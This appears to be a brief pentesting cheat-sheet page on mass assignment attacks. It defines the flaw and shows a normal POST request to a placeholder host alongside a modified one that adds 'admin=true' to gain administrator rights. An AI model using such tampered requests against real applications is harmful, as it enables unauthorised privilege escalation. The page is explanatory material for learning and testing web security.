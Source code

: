 # Mass Assignment Attack
## Introduction
Occurs when an app allows a user to manually add parameters in an HTTP Request & the app process value of these parameters when processing the HTTP Request & it affects the response that is returned to the user. Usually occurs in Ruby on Rails / NodeJS

## How to Exploit
- Normal request
```
POST /editdata
Host: vuln.com

username=daffa
```
```
HTTP/1.1 200 OK
...

username=daffa&admin=false
```

- Modified Request 
```
POST /editdata
Host: vuln.com

username=daffa&admin=true
```

```
HTTP/1.1 200 OK
...

username=daffa&admin=true
```